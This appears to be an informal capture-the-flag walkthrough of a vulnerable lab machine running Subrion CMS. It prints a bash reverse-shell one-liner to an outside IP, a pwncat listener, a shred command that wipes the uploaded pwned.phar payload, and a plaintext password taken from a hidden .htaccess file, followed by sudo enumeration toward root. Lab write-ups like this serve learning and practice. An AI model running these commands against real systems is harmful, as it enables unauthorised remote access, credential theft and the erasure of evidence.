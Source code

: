 as you know, we can make commands , so we are going to execute a shell on this url

first listen on netcat

and the exploit is this
(& is = %26)
bash -c "bash -i >%26 /dev/tcp/192.168.0.22/443 0>%261"

so we are in.. if we dont want to make a threatment on the console... we can use **pwncat** ..

pwncat-cs  -lp 443 (I MUST DOWNLOAD PWNCAT)

(instalatela)

Use shred in the archive called pwned.phar
```
shred -zun 10 -v pwned.phar
```

now we go to /home/ and we see that there are two users
-hostinger
-nathan


lets look for hidden folders

this is interesting....
cat .bash_history

he make things on this folder 

hostinger@venom:~$ cd 


/var/www/html/subrion/

in this folder there are another called backup, and a hidden archive called 

.htaccess

the password of nathan

FzN+f2-rRaBgvALzj*Rk#_JJYfg8XfKhxqB82x_a

this shows my credentials 
```
id
uid=1000(nathan) gid=1000(nathan) groups=1000(nathan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```
we are in the sudo group

sudo su
(i am not allowed to log in, as root on venom)

sudo -l
(this shos all the commands that i can do, or my sudo priviledges)


the version of sudo 

sudo --version
```
nathan@venom:/var/www/html/subrion/backup$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2

```
